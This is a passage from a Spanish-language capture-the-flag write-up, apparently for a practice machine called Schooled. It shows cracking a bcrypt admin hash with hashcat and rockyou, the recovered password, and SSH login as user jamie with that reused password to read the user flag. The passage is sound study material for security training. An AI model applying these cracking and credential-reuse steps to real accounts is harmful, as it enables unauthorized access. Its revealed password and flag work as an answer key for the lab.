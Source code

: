 Guardaré el hash en mi terminal en un fichero que llamaré hash.hash:
```
admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
```
Y lo crackearé. Lo puedo hacer tanto con la herramienta john como con hashcat.
```
> hashcat -m 3200 hash.hash --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
La contraseña es: **!QAZ2wsx**

Opciones:  
-m: Del modo a utilizar. Luego explico el porqué del 3200.
--user: Porque dentro del fichero he indicado el usuario. Esa opción es para que lo ignore.
-a 0: Indica el tipo de ataque de Fuerza Bruta. No lo he puesto porque por defecto es este.

¿Como sé que es el modo 3200?:
```
❯ hashcat --example-hashes | grep -oP '\$2\w\$'
$2a$
$23$
$23$
$23$

(Me quedo con la primera que es la más parecida)

❯ hashcat --example-hashes | grep \$2a\$\* -B 5
HASH: 792FCB0AE31D8489:7284616727
PASS: hashcat

MODE: 3200
TYPE: bcrypt $2*$, Blowfish (Unix)
HASH: $2a$05$MBCzKhG1KhezLh.0LRa0Kuw12nLJtpHy6DIaU.JAnqJUDYspHC.Ou
```
En MODE sale el modo. Cuidadín que con las opciones -oP para expresiones regulares no tengo la opción luego de ver líneas de arriba/antes (-A), de después (-B), tanto de antes como de después(-C).

Los usuarios encontrados en el home de la máquina objetivo eran jamie y steve. Probaré a conectarme con ellos por ssh con la password sacada del crackeo al hash; !QAZ2wsx
```
❯ ssh jamie@10.10.10.234
The authenticity of host '10.10.10.234 (10.10.10.234)' can't be established.
ECDSA key fingerprint is SHA256:BiWc+ARPWyYTueBR7SHXcDYRuGsJ60y1fPuKakCZYDc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.234' (ECDSA) to the list of known hosts.
Password for jamie@Schooled:
Last login: Fri Oct 29 12:35:59 2021 from 10.10.14.23
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

jamie@Schooled:~ $ id
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
jamie@Schooled:~ $ pwd
/home/jamie
jamie@Schooled:~ $ cat user.txt
a40c980de1e8422cc6077482*****
```
Y tenemos la primera flag!!!
